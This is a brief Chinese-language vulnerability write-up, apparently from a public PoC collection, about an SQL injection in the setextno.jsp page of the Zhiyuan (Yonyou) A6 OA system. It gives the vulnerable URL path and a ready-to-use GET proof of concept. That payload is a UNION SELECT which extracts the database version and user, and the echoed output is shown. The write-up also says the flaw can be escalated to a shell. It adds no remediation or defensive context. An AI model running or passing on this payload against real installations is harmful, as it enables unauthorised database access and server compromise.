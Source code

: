 # 致远OA A6 setextno.jsp sql注入漏洞

### 一、漏洞简介

用友致远A6协同系统SQL注入，union可shell

### 二、漏洞影响

致远OA A6

### 三、复现过程

漏洞位置:


```bash
http://www.baidu.com/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp
```

漏洞详情:

版本：A6用友致远A6协同系统SQL注入，union可shell

请求方式:

Get

Poc:


```bash
http://url/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(17) union all select 1,2,@@version,user()%23
```

回显内容


```
5.0.41-community-nt 
分机号root@localhost
```